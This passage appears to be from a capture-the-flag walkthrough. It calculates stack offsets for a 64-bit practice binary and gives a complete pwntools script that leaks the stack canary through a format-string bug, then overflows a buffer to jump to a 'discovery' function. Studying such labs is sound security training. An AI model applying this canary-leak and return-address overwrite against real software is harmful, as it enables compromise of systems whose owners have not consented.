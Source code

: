 So we can see that our buffer overflow starts at 0x7fffffffde10. We see that the return address in the rip register is at 0x7fffffffde38. We can also see that the stack canary that we need to overwrite is at 0x7fffffffde28 (0x7ffff7fd3728 is at a lower address than the start of our buffer, and since buffer overflows work towards higher addresses we can't write to it). So to calculate the offsets.

```
>>> 0x7fffffffde38 - 0x7fffffffde10
40
>>> 0x7fffffffde28 - 0x7fffffffde10
24
```

So we can see, that we have 40 bytes untill the return address, and 24 bytes to the stack canary. So we will have to write 24 characters, then the stack canary, then 8 more characters (keep in mind the the canary itself takes up 8 characters), and then the address of the discovery function. It would be best to put this all together in a script, which is what I have done. I have modified the format string read to put the canary between two unique strings, that way we can easily parse it.

```
#Import pwntools and regular expressions
from pwn import *
import re

#Designate which elf we are using, and run it
target = process("./d0_64")
elf = ELF("./d0_64")
context(binary=elf)

#Send the format string exploit to leak the canary
target.sendline("%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llx%llxesc%llxape")

#Store the output of the format string memory leak
memleak = target.recvline()

#Parse out the canary from the rest of the memory leak
canary = str(re.findall(r'esc(.*?)ape', memleak))

#Remove excess characters, print and convert the canary to a hex string
canary = canary.replace("['", "")
canary = canary.replace("']", "")
canary = "0x" + canary
print "The Canary Is: " + canary
canary = int(canary, 16)

#Designate the first and second filler segments
filler0 = "0"*24
filler1 = "0"*8

#Pull the symbol for the discovery function address
address = elf.symbols["discovery"]

#Construct the payload by combining the two filler segments, the canary and discovery address (in little endian)
payload = filler0 + p64(canary) + filler1 + p64(address)

#Send the payload (and print it)
print "Sending: " + str(payload)
target.sendline(payload)

#Print the program's output, which should include "Level Cleared!"
print target.recvline()
```
